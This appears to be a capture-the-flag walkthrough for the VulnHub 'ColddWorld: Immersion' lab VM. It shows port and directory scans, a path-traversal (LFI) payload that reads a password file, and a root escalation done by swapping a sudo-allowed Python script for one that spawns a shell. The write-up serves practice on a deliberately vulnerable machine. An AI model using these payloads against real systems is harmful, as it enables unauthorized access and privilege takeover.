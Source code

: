 ```yaml
---
title: "ColddWorld: Immersion Walkthrough"
description: "Immersion VulnHub CTF walkthrough"
---
```


{% highlight text %}
Will you be able to do the dive and take out both flags on this machine?

Please share your feedback: "https://twitter.com/C0ldd__”
{% endhighlight %}

The VM can be found [here](https://www.vulnhub.com/entry/colddworld-immersion,668/)

nmap 
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.153
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-01 08:14 EDT
Nmap scan report for 192.168.56.153
Host is up (0.0011s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3042/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
{% endhighlight %}
gobuster output:
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.153/ -x php,txt,html -q
/index.html           (Status: 200) [Size: 401]
/login                (Status: 301) [Size: 316] [--> http://192.168.56.153/login/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.56.153/css/]  
/wp                   (Status: 301) [Size: 313] [--> http://192.168.56.153/wp/]   
/secure               (Status: 301) [Size: 317] [--> http://192.168.56.153/secure/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.56.153/js/]
{% endhighlight %}

From the login page: 
{% highlight text %}
Hi Carls, if you read this, I have gone on a trip, let me tell you,
after the last attack we received (thanks to your inactivity as a web
developer) we had to make password changes, but since he doesn't use a mobile phone
or home computers (a bit weird since you are a web developer), I left clues on the "page"
for you to find your password, I know it will be easy because you are
good for detecting security flaws (or so I thought before the attack :D), I leave your password in a file called carls.txt that is inside /var, when you get it,
log in and finish your work by preparing my bash.
{% endhighlight %}
Take note of the "pages" hint. 
Exploiting LFI on the login page: 
http://192.168.56.153/login/account.php?page=../../../carls.txt

carls:Y2FybG9z

{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ echo "Y2FybG9z" | base64 -d                                             130 ⨯
carlos
{% endhighlight %}

Checking sudo -l to see what carls can run as another user
{% highlight terminal %}
carls@Immersion:~$ sudo -l
[sudo] password for carls: 
Coincidiendo entradas por defecto para carls en Immersion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario carls puede ejecutar los siguientes comandos en Immersion:
    (c0ldd : c0ldd) /bin/bash
carls@Immersion:~$ 
{% endhighlight %}
Switching to the c0ldd user: 
{% highlight terminal %}
carls@Immersion:~$ sudo -u c0ldd /bin/bash
c0ldd@Immersion:~$ 
{% endhighlight %}

Checking sudo privileges with sudo -l

{% highlight terminal %}
c0ldd@Immersion:~$ sudo -l
Coincidiendo entradas por defecto para c0ldd en Immersion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en Immersion:
    (root) NOPASSWD: /usr/bin/python3 /home/c0ldd/DoNotRun.py
c0ldd@Immersion:~$ 
{% endhighlight %}

Enumerating local files for the c0ldd user: 
{% highlight terminal %}
c0ldd@Immersion:/home/c0ldd$ cat user.txt 
TXV5IGJpZW4gaGVjaG8gOik=
{% endhighlight %}

Can't overwrite the file but we can delete it and create a new version of the 
script to be run as root!
{% highlight terminal %}
c0ldd@Immersion:/home/c0ldd$ rm DoNotRun.py 
rm: ¿borrar el fichero regular 'DoNotRun.py'  protegido contra escritura? (s/n) y
c0ldd@Immersion:/home/c0ldd$ ls -a
.   .bash_history  .bashrc  .nano     .sudo_as_admin_successful
..  .bash_logout   .cache   .profile  user.txt
c0ldd@Immersion:/home/c0ldd$ touch DoNotRun.py
c0ldd@Immersion:/home/c0ldd$ vim DoNotRun.py 
c0ldd@Immersion:/home/c0ldd$ ls
DoNotRun.py  user.txt
c0ldd@Immersion:/home/c0ldd$ cat DoNotRun.py 
import pty
pty.spawn("/bin/bash")

c0ldd@Immersion:/home/c0ldd$ sudo -u root /usr/bin/python3 /home/c0ldd/DoNotRun.py 
root@Immersion:/home/c0ldd# 
{% endhighlight %}

Getting the root flag: 
{% highlight terminal %}
root@Immersion:/root# cat root.txt 
RmVsaWNpZGFkZXMgY3JhY2s=
{% endhighlight %}



